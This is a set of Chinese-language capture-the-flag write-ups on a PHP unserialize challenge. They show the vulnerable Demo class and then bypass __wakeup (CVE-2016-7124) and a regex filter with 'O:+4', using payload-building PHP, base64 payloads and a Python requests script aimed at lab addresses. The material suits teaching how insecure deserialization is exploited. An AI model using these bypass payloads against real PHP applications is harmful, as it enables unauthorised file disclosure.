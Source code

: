 PHP代码审计
0、
    php中带有双下划线（__）的是魔术方法，会在满足条件时自动调用
    序列化是把数据类型压缩成一个字符串，方便处理，反序列化是把字符串还原成数据类型
    正则表达式用于匹配字符串
有漏洞（CVE-2016-7124）可以通过**使序列化字符串中表示对象属性个数的值大于真实的属性个数，以此跳过__wakeup的执行**，
而PHP5 < 5.6.25， PHP7 < 7.0.10 的版本存在wakeup的漏洞。


writeup1：（1）进行代码审计,发现为反序列，如果一个类定义了wakup()和destruct()，则该类的实例被反序列化时，会自动调用wakeup(), 生命周期结束时，则调用desturct()。
	    （2）在 PHP5 < 5.6.25 >， PHP7 < 7.0.10 >的版本存在wakeup的漏洞。当反序列化中object的个数和之前的个数不等时，wakeup就会被绕过。
	    （3）构造exphttp://192.168.100.161:62288/index.php?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==,可得到flag。
题目：
<?php 
class Demo { 
    private $file = 'index.php';
//初始化，构造函数，创建时自动调用，用得到的参数覆盖$file
    public function __construct($file) { 
        $this->file = $file; //构造函数，对类的变量进行初始化
    }
//生命周期结束后的析构函数，销毁时调用，会显示文件的代码，这里要显示fl4g.php
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
//魔术方法，如果有反序列化的使用，在反序列化之前会先调用这个方法。反序列化时调用，会把$file重置成index.php
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { //isset：检测变量是否设置且非空，_GOT:使用URL参数（查询字符串）传递给当前脚本的变量的关联数组
    $var = base64_decode($_GET['var']); 
//正则匹配，如果在var变量中存在O/C:数字(O:数字或者C:数字这样的形式})，不区分大小写，就输出stop hacking!否则的话就进行反序列化
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>

writeup2:
审计完成之后，思路就很清晰了，对Demo这个类进行序列化，base64加密之后，赋值给var变量进行get传参就行了
在类Demo中有三个方法，一个构造，一个析构，还有就是一个魔术方法，构造函数__construct()在程序执行开始的时候对变量进行赋初值。析构函数__destruct()，在对象所在函数执行完成之后，会自动调用，这里就会高亮显示出文件。
在反序列化执行之前，会先执行__wakeup这个魔术方法，所以需要绕过，当成员属性数目大于实际数目时可绕过wakeup方法，正则匹配可以用+号来进行绕过。

<?php
class Demo {
private $file = 'index.php';
//protected $file1 = 'index.php';
public function __construct($file) {
    $this->file = $file;
    //$this->file1 = $file1;
}
function __destruct() {
    echo @highlight_file($this->file, true);
}
function __wakeup() {
    if ($this->file != 'index.php') {
        //the secret is in the fl4g.php
        $this->file = 'index.php';(
    }
}
}
$a = new Demo("fl4g.php");
echo serialize($a)."\n";
//O:4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}
echo base64_encode('O:+4:"Demo":2:{s:10:" Demo file";s:8:"fl4g.php";}');

修改之后，再进行base64加密，传参就可以了

index.php?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==


writeup3:
根据题目可以知道是一个反序列化的题看到源码，需要绕过一个__wakeup()函数和一个正则匹配，才能高亮显示出fl4g.php文件。
主要的限制在两个函数：一个是类的魔术函数function __wakeup()，绕过该函数的方法是序列化字符串中标识变量数量的值大于实际变量即可绕过该函数 
另一个是正则匹配——if (preg_match('/[oc]:\d+:/i', $var)) ，正则匹配这里匹配的是O:4，我们用O:+4即可绕过

构造payload:


<?php
class Demo {
private $file = 'index.php';
//protected $file1 = 'index.php';
public function __construct($file) {
    $this->file = $file;
    //$this->file1 = $file1;
}
function __destruct() {
    echo @highlight_file($this->file, true);
}
function __wakeup() {
    if ($this->file != 'index.php') {
        //the secret is in the fl4g.php
        $this->file = 'index.php';
    }
}
}

$a= new Demo('fl4g.php');
$b=serialize($a);
$b=str_replace('O:4','O:+4',$b);
$b=str_replace('1:{','2:{',$b);

echo base64_encode($b);

复制输出的字符串再提交为var参数即可.

注意：这里的file变量为私有变量，所以序列化之后的字符串开头结尾各有一个空白字符（即%00），
字符串长度也比实际长度大2，如果将序列化结果复制到在线的base64网站进行编码可能就会丢掉空白字符，
所以这里直接在php代码里进行编码。类似的还有protected类型的变量，序列化之后字符串首部会加上%00*%00。


writeup4：
题目过程，接受var变量并base64解码，匹配''/[oc]:\d+:/i''（首字母为o或c，冒号，一个或多个数字，冒号，忽略大小写），
成功提示stop hacking，失败反序列化var变量（程序结束会销毁新建的Demo对象，触发__destruct()）。

使用+可以绕过preg_match()，绕过__wakeup()是利用CVE-2016-7124，例如O:4:"Demo":2:{s:10:"\0Demo\0file";s:8:"fl4g.php";}（正常是O:4:"Demo":1:...），
反序列化化时不会触发__wakeup()


最后一个问题是使用hackbar或者浏览器直接var?=...的话\0会被认为是两个字符，需要使用python提交

import base64
import requests

s = base64.b64encode(b'O:+4:"Demo":2:{s:10:"\0Demo\0file";s:8:"fl4g.php";}')
url = 'http://111.198.29.45:43225/'
params = {'var':s}
r = requests.get(url,params=params)
print(r.text)


我的实现：
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
	$a=new Demo("fl4g.php");
	$b=serialize($a)."\n";
	$b=str_replace('O:4','O:+4',$b);
	$b=str_replace('1:{',"2:{",$b);
	echo base64_encode($b);
?>

将得到的结果给url传参：http://220.249.52.133:58561?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQo=

